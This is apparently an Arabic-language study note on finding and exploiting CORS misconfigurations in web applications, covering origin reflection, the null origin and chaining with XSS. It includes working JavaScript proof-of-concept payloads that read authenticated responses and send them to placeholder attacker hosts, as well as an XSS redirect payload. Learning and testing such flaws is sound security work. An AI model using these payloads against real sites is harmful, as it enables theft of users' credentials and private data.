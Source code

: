 ____
# الخلاصة
انت بتحط ال origin header وبتجرب في قيم زي:
- null
- *
- https://evil.com
- https://website.com
- https://xssvuln.website.com

وبتشوف ال response هل فيه ال 2 headers دول ولا لأ:

```http
----
Access-Control-Allow-Origin: https://evil.com 
OR 
Access-Control-Allow-Origin: *
OR
Access-Control-Allow-Origin: null
OR
Access-Control-Allow-Origin: https://xssvuln.website.com


Access-Control-Allow-Credentials: true
----
```
___

### ما هي ال CORS؟

قبل م نعرف لازم نفهم يعني اي Same Origin Policy
![[Pasted image 20240721160252.png]]
![[Pasted image 20240721160506.png]]

REQUEST
```http
-----
Origin: https://evil.com
-----
```

RESPONSE
```http
-----
Access-Control-Allow-Origin: https://evil.com OR Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
-----
```

<mark style="background: #FFB86CA6;">This is a vulnerability!</mark>

![[Pasted image 20240721161300.png]]

----
### Some Techniques

1. اشهر Misconf هو اللي بي reflect ال origin
REQUEST
```http
-----
Origin: https://evil.com
-----
```

RESPONSE
```http
-----
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
-----
```

ودا الاستغلال بتاعها:
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
==================================================================

2. تاني اشهر واحد هو null
REQUEST
```http
----
Origin: null
----
```

RESPONSE
```http
----
Access-Control-Allow-Origin: null
----
```

ودا استغلالها بيعتمد علي iframe sand-boxed

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```
==================================================================

3. CORS Chained with XSS!

لو لقيت CORS بس بيقبل فقط ال subdomains مثلا لكن لقيت في subdomain انه فيه ثغرة XSS.
هنا في احتمالية كبيرة انه الثغرة تشتغل معاك بال POC دا:
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://www.vulnerable.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

هتحطه في مكان ال XSS وبس!
ووقت الأستغلال هتعمل الاتي:
```html
<script>
document.location = "https://xssvuln.website.com?vuln=YOUR_EXPLOIT_URL_ENCODED"
</script>
```
